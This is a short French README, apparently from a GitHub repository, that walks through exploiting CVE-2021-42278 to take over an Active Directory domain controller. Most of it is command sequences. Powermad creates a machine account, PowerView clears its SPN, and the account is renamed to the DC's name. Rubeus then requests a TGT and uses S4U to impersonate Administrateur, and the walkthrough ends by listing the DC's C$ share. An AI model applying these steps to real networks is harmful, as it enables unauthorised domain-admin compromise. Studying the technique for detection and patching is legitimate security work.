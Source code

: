 # CVE-2021-42278

Permet a un utilisateur authentifier sur le domaine de pouvoir ajouter une machine au domaine avec un mot de passe qui est defini que l'on connait.

De modifier le  l'attribut `SamAccountName` dans l'annuaire pour ursurper le nom du `DC` et en suite utiliser cette nouvelle machine avec le nom du DC quel ursurpe de l'utiliser pour genere un TGT pour dire `Nous sommes DC`.

Et en suite remettant le nom par defaut de la machine cette fois si communiquer avec le veritable DC en lui presentant notre TGT qui porte son propre nom en lui demandant un TGS et donc pour avoir la totaliter des droits sur le DC.



`Powermad.ps1` permet d'ajouter une machine au domaine et renommer l'attribut SamAccountName de la machine

`PowerView.ps1` permet de supprimer le SPN de la machine

Poste Client sur un domaine avec un utilisateur admin local

```sh
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount W10 -Domain dom.local -DomainController dc.dom.local -Verbose
```

```sh
Import-Module .\PowerView.ps1
Set-DomainObject "CN=W10,CN=Computer,DC=dom,DC=local" -Clear 'serviceprincipalename' -Verbose
```

```sh
Set-MachineAccountAttribute -MachineAccount W10 -Value "DC" -Attribute sAMAccountName -Verbose
```

```sh
Rubeus.exe asktgt /user:DC /password:Password123 /domain:dom.local /dc:dc.dom.local /nowrap
```

```sh
Set-MachineAccountAttribute -MachineAccount W10 -Value "W10" -Attribute sAMAccountName -Verbose
```

```sh
Rubeus.exe s4u /impersonateuse:Administrateur /nowrap /dc:dc.dom.local /self /altservice:CIFS/DC.dom.local /ptt /ticket:<ticket base 64>
```

```sh
klist
```

```sh
dir \\dc.dom.local\c$
```